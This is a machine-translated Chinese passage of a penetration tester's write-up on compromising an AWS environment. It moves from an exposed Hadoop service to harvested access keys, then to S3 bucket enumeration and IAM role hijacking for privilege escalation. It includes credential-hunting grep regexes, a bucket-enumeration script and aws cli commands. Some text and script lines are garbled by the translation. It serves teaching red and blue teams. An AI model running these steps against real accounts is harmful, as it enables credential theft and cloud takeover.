# 利用 AWS IAM 权限实现全面的云妥协:一个真实的例子(1/2)

> 原文：<https://infosecwriteups.com/exploiting-fine-grained-aws-iam-permissions-for-total-cloud-compromise-a-real-world-example-part-5a2f3de4be08?source=collection_archive---------0----------------------->

注意:这是第二部分的链接。

# 介绍

这是一个真实的案例研究，说明了如何枚举和使用 IAM 权限以获得优势。我**强烈**建议你阅读[我之前的文章](https://medium.com/bugbountywriteup/aws-iam-explained-for-red-and-blue-teams-2dda8b20fbf7)关于我的权限是如何工作的。这很长，但对理解我们在这里做的大部分事情是必要的。我想澄清的另一件事是，这种利用是长期的，有点技术性，所以我不会深入讨论我们发现的更容易的漏洞(其中一个在以前的文章中也有涉及)。我们将介绍手动枚举 IAM 策略和角色，以及可以为您做到这一点的自动化工具(以及为什么您不应该 100%地信任它们)。我们还会在 jq 上一堂速成课。

# 涉足网络

对公共 AWS 端点的 Nessus 扫描显示 Hadoop 实例暴露了未经验证的 ResourceManager 服务。您可能还记得我之前关于 Hadoop 和 MCollective exploitation 的文章中的这个漏洞。使用 metasploit 可以很容易地利用这一点来实现 RCE。

在破坏了这个实例并快速设置了几个后门以在服务中断时重新获得访问权之后，我们开始扫描网络，并在内部接口(10.0.0.0/8)的端口 9290 上找到了一个带有公开服务的主 Hadoop 节点。



我们验证了它托管了 Hadoop 的配置文件。



我们开始下载所有的信息进行分析。



当您在 AWS 环境中工作时，您能找到的最好的东西之一是 AWS 访问密钥和秘密密钥。你可以在这里找到相关的正则表达式:[https://gist . github . com/hsuh/88360 ee ADB 0 e 8 f 7136 c 37 FD 46 a 62 ee 10](https://gist.github.com/hsuh/88360eeadb0e8f7136c37fd46a62ee10)

AWS 有 3 种访问资源的方式。

1.  通过 web 控制台
2.  通过命令行界面
3.  通过 API 的

要使用 CLI，您需要一个访问密钥、一个密钥和一个可选的令牌。您可以使用以下正则表达式找到访问密钥和秘密密钥:

```
grep -RP '(?<![A-Z0-9])[A-Z0-9]{20}(?![A-Z0-9])' *                       grep -RP '(?<![A-Za-z0-9/+=])[A-Za-z0-9/+=]{40}(?![A-Za-z0-9/+=])' *
```

下载完所有内容后，我们运行它们，在一个名为 core-site.xml 的文件上找到了匹配项。


AWS 访问键



AWS 密钥

引用[https://www . edu reka . co/blog/explaining-Hadoop-configuration/](https://www.edureka.co/blog/explaining-hadoop-configuration/):

> Core-site.xml 和 hdfs-site.xml:
> 
> core-site.xml 文件通知 Hadoop 守护进程 NameNode 在集群中运行的位置。它包含 Hadoop 核心的配置设置，例如 HDFS 和 MapReduce 通用的 I/O 设置。
> 
> hdfs-site.xml 文件包含 hdfs 守护程序的配置设置；NameNode、辅助 NameNode 和 DataNodes。在这里，我们可以配置 hdfs-site.xml 来指定 hdfs 上的默认数据块复制和权限检查。实际的复制次数也可以在创建文件时指定。如果在创建时未指定复制，则使用默认值。

我们可以使用 [enumerate-iam.py](https://github.com/andresriancho/enumerate-iam) 来暴力破解该帐户可用的权限。



显然该帐户可以列出 s3 桶！不过这个帐号似乎没有管理员权限。让我们用 [RhinoSecurityLab 的 AWS _ upgrade . py](https://github.com/RhinoSecurityLabs/Security-Research/blob/master/tools/aws-pentest-tools/aws_escalate.py)做一个快速权限提升检查。我在关于 IAM 权限的另一篇文章中已经提到了这个工具。你可以在这里阅读它为[检查的 21 种权限提升方法。](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation)



坏消息是，这个账户似乎连 GetUser 权限都没有。但是还有更多的要调查。让我们回到 S3 路线。

# 旋转入口

我们需要用凭证配置一个配置文件，并开始枚举。

```
aws configure --profile test
```



在 awscli 中设置配置文件

```
aws --profile test s3 ls
```



验证列表权限



大约有 180 桶。让我们从阅读开始

```
aws --profile test s3 ls s3://backup-db-logs
```



这也是坏消息。显然，该帐户有权列出存储桶，但无权读取它们。我们需要能阅读的桶。有几个工具可以做到这一点，但我们总是喜欢编写自己的脚本，以便对幕后发生的事情有更多的控制:

```
cat > enumerateReadBuckets.sh <<EOF
#!/bin/bashfor i in "$@" ; do
 if [[ $i == "--profile" ]] ; then
            profile=$(echo "$@" | awk '{for(i=1;i<=NF;i++) if ($i=="--profile") print $(i+1)}')
            AWS_ACCESS_KEY_ID=$(cat /root/.aws/credentials | grep -i "$profile" -A 2 | grep -i = | cut -d " " -f 3 | head -n 1)
            AWS_SECRET_ACCESS_KEY=$(cat /root/.aws/credentials | grep -i "$profile" -A 2 | grep -i = | cut -d " " -f 3 | tail -n 1)
            break
        fi
doneecho "Enumerating the buckets..."
    aws --profile "$profile" s3 ls | cut -d ' ' -f 3 > /tmp/buckets
echo "You can read the following buckets:"
    >/tmp/readBuckets
for i in $(cat /tmp/buckets); do
    result=$(aws --profile "$profile" s3 ls s3://"$i" 2>/dev/null | head -n 1)
    if [ ! -z "$result" ]; then
            echo "$i" | tee /tmp/readBuckets
                    unset result
    fi
done
EOF
```

您可以用以下命令调用它

```
bash enumerateReadBuckets.sh --profile test
```



我们只能得到 4 桶…不算太好，也不算太糟。让我们开始同步所有信息，以便在本地进行分析。

```
for i in $(enumerateReadBuckets --profile test | tail -n +1); do aws s3 sync s3://"$i" .; done
```



但是我们的剧本没有回来。我们当时不确定是什么问题，但这在 pentest 上经常发生，所以我们继续手动计数。我们从第一个桶开始，姑且称之为桶 1

```
aws --profile test s3 ls s3://bucket1
```



一个 conf 目录！这看起来很有希望。

```
aws --profile test s3 ls s3://bucket1/conf/
```



等等，core-site.xml 不是我们找到的第一个文件吗？让我们下载它并寻找凭证。

```
aws --profile test s3 cp s3://bucket1/conf/hadoop/core-site.xml .
```



太好了！我们找到了新的凭证。让我们创建一个新的配置文件来使用它们。

```
aws configure --profile test2
```



让我们强力使用我们的权限:



太棒了。这个帐户似乎比我们的第一个帐户有更多的权限。让我们尝试添加一个新用户:



仍然没有管理员帐户。让我们尝试提升权限:

```
./aws_escalate.py --access-key-id AKID --secret-key SK
```



现在，我们开始利用我们对 aws cli 的一些不错的知识。AWS _ upgrade 脚本使用 GetUser 操作来获取当前用户。test2 下的帐户没有 GetUser 权限。但是有其他方法可以获得你正在运行的用户。其中之一是使用[安全令牌服务](https://docs.aws.amazon.com/cli/latest/reference/sts/) API

```
aws sts get-caller-identity
```



现在我们知道了用户，我们可以手动指定它:

```
./aws_escalate.py --access-key-id AKID --secret-key SK --user-name USER
```



脚本返回没有可能的方法。这是因为用户没有权限调用脚本使用的任何方法。**但是我们能够手动提升该用户的权限**。让我们看看如何。

# 寻找完美的角色来扮演

如果您还记得与我们的 test2 用户相关的权限，有很多是与 ec2 相关的。回到 [Rhino 的精彩博文](https://medium.com/r?url=https%3A%2F%2Frhinosecuritylabs.com%2Faws%2Faws-privilege-escalation-methods-mitigation)，我们可以看到方法 3 实际上使用了 ec2:

> **描述:**拥有 iam:PassRole 和 ec2:RunInstances 权限的攻击者可以创建一个他们将拥有操作系统访问权限的新 ec2 实例，并将现有的 EC2 实例配置文件/服务角色传递给它。然后，他们可以登录到该实例，并从 EC2 实例元数据中请求相关的 AWS 键，这使他们能够访问相关的实例概要文件/服务角色所拥有的所有权限。

让我们在继续之前澄清一些事情。脚本是快速列举信息的好方法，但是它通常不能 100%肯定地告诉你是否可以提升权限。这是因为

1.大多数权限提升取决于几个因素，并且并非所有因素都容易相互关联

2.Amazon 权限是真正的粒度(你可能有列出存储桶的权限，但是没有读取它们的权限)。

以我上面引用的方法为例。您可以拥有 PassRole 和 RunInstances 特权，但这实际上还不够。您还需要能够枚举要模拟的角色。为了利用它，您需要能够连接到实例(因此您需要自己已经创建的 ssh 密钥，以便在创建时将它们注入到实例中)。或者您需要实例连接回您，定义一个[用户脚本](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/user-data.html)。但是这两种方法都依赖于具有允许连接的安全组的实例(简单地说，安全组是防火墙策略的 AWS 名称)。因此，您需要枚举安全组，以了解将哪个组分配给实例(或者创建新组的权限)。

但是粒度权限是一把双刃剑。你有比懒惰的系统管理员所想的更多的做事方法。我们可以利用这一点(正如我们将看到的那样)。

现在，我们需要找到的第一件事是我们想要偷哪个角色。让我们检查一下是否可以用

```
aws --profile PROFILE iam list-roles | head -n 10
```



太好了！我们有列表角色特权。现在，要找到一个好的角色劫持候选人，我们需要两样东西。

1.  该角色需要附加管理员策略(或类似策略)。
2.  角色信任策略需要包含 Amazon 的 EC2 服务，以允许实例承担角色(如果您不知道这意味着什么，请回到我以前的文章)。

关于第一点，我们可以列出相关的托管策略

```
aws --profile PROFILE iam list-attached-role-policies --role-name ROLE
```

我们还可以使用以下命令列出内联策略

```
aws --profile PROFILE iam list-role-policies --role-name ROLE
```

让我们以管理员角色为例来尝试一下:



太好了！现在，让我们尝试获取信任关系文档(也称为承担角色策略)来看看谁可以承担这个角色。我们可以用这个

```
aws --profile PROFILE iam get-role --role-name ROLE
```



如果您的帐户有权限，这是您应该得到的输出



这是我们用 test2 帐户得到的输出

这可不好。我们没有获取角色的权限。但是还记得我们说过的粒度权限吗？通常有多种方法可以获得相同的信息。在这种情况下，用户无权使用 get-role，但有权使用 list-role。 [Amazon 的文档](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/iam/list-roles.html)声明这个调用用于列出具有指定路径前缀的角色，如果没有，操作返回一个空列表，但是这个定义可能会产生误导。你看，这个调用你需要使用

```
 --path-prefix 
```

带有您想要搜索的前缀，但是如果您省略了它，它将默认为一个斜杠(/)，从而获得所有的角色(并因此为我们的特定用例场景替换 get-role)。不管怎样，我们称之为:

```
aws --profile PROFILE iam list-roles
```



太好了！现在，我们需要一种列出角色的方法，假设角色策略将 aws EC2 列为受信者。为了过滤这些，我们将使用 [JQ](https://stedolan.github.io/jq/) 。Jq 是解析 json 输出的一个很好的工具，学习曲线有点陡。为了更好地向您展示如何使用它，我将一步一步来。首先，您需要看到需要解析的结构。让我们看一下输出的一个角色:



我们需要寻找的信息列在“主要”栏下。它应该看起来像这样

```
"Principal": {
 "Service": "ec2.amazonaws.com"
},
```

让我们只选择我们感兴趣的字段

```
aws --profile test2 iam list-roles | jq -r '.Roles[] | .RoleName, .AssumeRolePolicyDocument.Statement[].Principal.Service'
```

这将只筛选角色名和主体

